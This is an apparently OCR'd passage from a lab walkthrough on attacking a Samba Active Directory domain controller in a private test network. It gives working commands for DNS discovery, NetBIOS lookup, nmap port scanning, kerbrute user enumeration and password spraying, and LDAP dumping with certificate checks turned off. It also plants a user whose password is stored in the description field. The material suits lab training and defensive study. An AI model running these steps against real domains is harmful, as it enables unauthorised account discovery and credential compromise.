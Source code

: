 2. After finding the domain name, check if the Nameserver corresponds to the Domain Controller by checking it has some critical DC services such as Kerberos and LDAP.
```bash
nslookup -type=srv _kerberos._tcp.polaris.org.
nslookup -type=srv _ldap._tcp.polaris.org.
```

#### NETBIOS [OPTIONAL]
The tools `nbtscan` and `nmblookup` can be used for reverse lookup (IP addresses to NetBIOS names).
```bash
# Name lookup on a range
nbtscan -r 192.168.122.0/24

# Find names and workgroup from an IP address
nmblookup -A 192.168.11.10
```

#### Port Scanning
The `nmap` utility can be used to scan for open ports in an IP range.
```bash
# -sS for TCP SYN scan
# -n for no name resolution
# --open to only show (possibly) open port(s)
# -p for port(s) number(s) to scan
nmap -sS -n --open -p 88,389 192.168.122.0/24
```

### Movement
#### User Enumeration
Enumerate the users in the Active Directory Domain Controller using a users list.
```bash
./kerbrute userenum -d polaris.org users.txt --dc 192.168.122.10
```

#### Password Spraying

Perform a horizontal brute force attack against a list of domain users. This is useful for testing one or two common passwords when you have a large list of users.
```bash
./kerbrute passwordspray -d polaris.org valid_users.txt --dc 192.168.122.10 Password123
```

#### LDAP Dump
1. On the attacker, to avoid the attacker from verifying the certificate from TLS connections, add the line to the file `/etc/ldap/ldap.conf`: `TLS_REQCERT never`. [Link](https://www.openldap.org/software/man.cgi?query=ldap.conf&sektion=5&apropos=0&manpath=OpenLDAP+2.4-Release)

2. On the Domain Controller, add a user with a description in Domain.
```bash
/usr/local/samba/bin/samba-tool user add saul.goodman beTTer@caLL@me --description="DELETE THIS LATER. Password: beTTer@caLL@me"
```
Now, the LDAP queries can be performed from the attacker workstation to obtain relevant information about the AD and its objects.
